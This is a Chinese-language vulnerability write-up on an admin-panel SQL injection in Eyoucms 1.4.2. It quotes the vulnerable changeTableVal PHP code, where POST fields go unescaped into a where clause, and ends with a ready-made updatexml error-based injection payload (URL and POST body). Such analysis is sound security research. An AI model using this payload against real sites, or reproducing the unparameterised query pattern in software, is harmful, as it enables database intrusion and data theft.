

Eyoucms 1.4.2 后台注入
======================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

### 漏洞分析

/application/admin/controller/Index.php

    public function changeTableVal()
    {
        if (IS_AJAX_POST) {
            $url = null;
            $data = [
                'refresh'   => 0,
            ];
            $table = input('post.table/s'); // 表名
            $id_name = input('post.id_name/s'); // 表主键id名
            $id_value = input('post.id_value/s'); // 表主键id值
            $field  = input('post.field/s'); // 修改哪个字段
            $value  = input('post.value/s', '', null); // 修改字段值  
            switch ($table) {
                // 会员等级表
                case 'users_level':
                    {
                        $return = model('UsersLevel')->isRequired($id_name,$id_value,$field,$value);
                        if (is_array($return)) {
                            $this->error($return['msg']);
                        }
                    }
                    break;
                
                // 会员属性表
                case 'users_parameter':
                    {
                        $return = model('UsersParameter')->isRequired($id_name,$id_value,$field,$value);
                        if (is_array($return)) {
                            $this->error($return['msg']);
                        }
                    }
                    break;
                
                // 会员中心菜单表
                case 'users_menu':
                    {
                        Db::name('users_menu')->where('id','gt',0)->update([
                                'is_userpage'   => 0,
                                'update_time'   => getTime(),
                            ]);
                        $data['refresh'] = 1;
                    }
                    break;
                
                // 会员投稿功能
                case 'archives':
                    {
                        if ('arcrank' == $field) {
                            if (0 == $value) {
                                $value = -1;
                            }else{
                                $value = 0;
                            }
                        }
                    }
                    break;
                // 会员产品类型表
                case 'users_type_manage':
                    {
                        if (empty($value)) {
                            $this->error('不可为空');
                        }
                    }
                    break;
                default:
                    # code...
                    break;
            }
            $savedata = [
                $field => $value,
                'update_time'   => getTime(),
            ];
            M($table)->where("$id_name = $id_value")->cache(true,null,$table)->save($savedata); // 根据条件保存修改的数据
            // 以下代码可以考虑去掉，与行为里的清除缓存重复 AppEndBehavior.php / clearHtmlCache
            switch ($table) {
                case 'auth_modular':
                    extra_cache('admin_auth_modular_list_logic', null);
                    extra_cache('admin_all_menu', null);
                    break;
                
                default:
                    // 清除logic逻辑定义的缓存
                    extra_cache('admin_'.$table.'_list_logic', null);
                    // 清除一下缓存
                    // delFile(RUNTIME_PATH.'html'); // 先清除缓存, 否则不好预览
                    \think\Cache::clear($table);
                    break;
            }
            /*清除页面缓存*/
            // $htmlCacheLogic = new \app\common\logic\HtmlCacheLogic;
            // $htmlCacheLogic->clear_archives();
            /*--end*/
            
            $this->success('更新成功', $url, $data);
        }
    }

第307行：

    M($table)->where("$id_name = $id_value")->cache(true,null,$table)->save($savedata); // 根据条件保存修改的数据

直接将函数头获取的POST传入SQL语句里面：

    $table = input('post.table/s'); // 表名
    $id_name = input('post.id_name/s'); // 表主键id名
    $id_value = input('post.id_value/s'); // 表主键id值
    $field  = input('post.field/s'); // 修改哪个字段
    $value  = input('post.value/s', '', null); // 修改字段值

### 漏洞复现

payload：

    http://0-sec.org/eyou/?m=admin&c=Index&a=changeTableVal

    post:

    table=admin&id_name=admin_id&id_value='1'//and//updatexml(1,concat(0x7e,user(),0x7e),1)

四、参考链接
------------

> http://www.f4ckweb.top/index.php/archives/47/
